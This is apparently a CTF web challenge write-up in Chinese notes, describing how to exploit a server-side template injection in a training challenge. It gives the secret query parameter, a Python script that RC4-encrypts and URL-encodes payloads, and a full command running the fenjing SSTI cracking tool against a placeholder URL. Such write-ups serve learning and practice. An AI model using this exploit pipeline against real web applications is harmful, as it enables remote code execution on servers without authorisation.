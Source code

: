 # 思路
	- 和[[CTFWEB/WP/NISACTF 2022 is secret]]是同一题
	- {{embed ((64b57451-c669-40ab-98ed-c8de91a1fc2e))}}
- # 获取secret
	- 访问`/secret?secret=114514`
- # SSTI
	- 写一个脚本传给fenjing
		- ```python
		  import sys
		  from Crypto.Cipher import ARC4
		  from urllib.parse import quote, unquote
		  
		  
		  def urlencode(s):
		      if isinstance(s, bytes):
		          return quote("".join(chr(c) for c in s).encode())
		      return quote(s)
		  
		  def urldecode(s):
		      return unquote(s)
		  
		  def rc4_encrypt(key, plaintext):
		      cipher = ARC4.new(key)
		      encrypted_text = cipher.encrypt(plaintext.encode())
		      return urldecode(urlencode(encrypted_text))
		  
		  # 示例使用
		  key = b'HereIsTreasure'  # 密钥，以字节形式表示
		  plaintext = input()  # 明文
		  
		  encrypted_text = rc4_encrypt(key, plaintext)
		  print(encrypted_text, end = "")
		  
		  
		  ```
	- ```shell
	  python -m fenjing crack --url 'http://xxx/secret' --inputs secret --method GET --tamper-cmd 'python a.py'
	  ```
-